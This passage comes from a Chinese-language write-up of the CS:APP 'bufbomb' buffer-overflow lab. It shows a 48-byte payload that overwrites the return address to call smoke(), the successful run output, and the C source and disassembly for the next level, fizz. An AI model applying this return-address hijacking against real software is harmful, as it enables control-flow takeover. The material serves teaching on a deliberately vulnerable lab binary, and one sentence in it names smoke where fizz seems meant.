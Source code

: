 故需要构造长度为`0x28+0x4+0x4=0x30=48`的字符串，来覆盖`return addr`。最后四位为`smoke`的起始地址`0x08048c90`的小端存储形式。

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 /* 16 */
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 /* 32 */
00 00 00 00 00 00 00 00 00 00 00 00 90 8c 04 08 /* 48 */
```

### 结果

```shell
$ ./hex2raw < smoke.txt | ./bufbomb -u U201814791
Userid: U201814791
Cookie: 0x675abfd7
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
```

## fizz

### 任务

你的任务是构造一个攻击字符串作为`bufbomb`的输入，在`getbuf()`中造成缓冲区溢出，使得本次`getbuf()`返回时不是返回到`test`函数继续执行，而是转向执行`fizz()`。

### 题解

首先查看`bufbomb.c`中`fizz`的定义。`fizz`接受一个`int`型参数`val`，并要求`val` 与`cookie`值相等。因此需在`getbuf()`中输入构造的字符串，使得其返回地址指向`smoke`，并且使得`cookie`的值正确传递。

```c
void fizz(int val)
{
    if (val == cookie) {
		printf("Fizz!: You called fizz(0x%x)\n", val);
		validate(1);

    } else
		printf("Misfire: You called fizz(0x%x)\n", val);
    exit(0);
}
```

在`bufbomb.s`中定位到`fizz`，分析其栈帧。`val`在栈上的地址是`0x8(%ebp)`。

```asm
08048cba <fizz>:
 8048cba:	55                   	push   %ebp
 8048cbb:	89 e5                	mov    %esp,%ebp
 8048cbd:	83 ec 18             	sub    $0x18,%esp
 8048cc0:	8b 45 08             	mov    0x8(%ebp),%eax
 8048cc3:	3b 05 20 c2 04 08    	cmp    0x804c220,%eax
```

考虑到调用`fizz`前`esp`指向`return addr`，故调用后`ebp`仍在原位。`fizz`和`getbuf`实际上共用了一个栈帧。
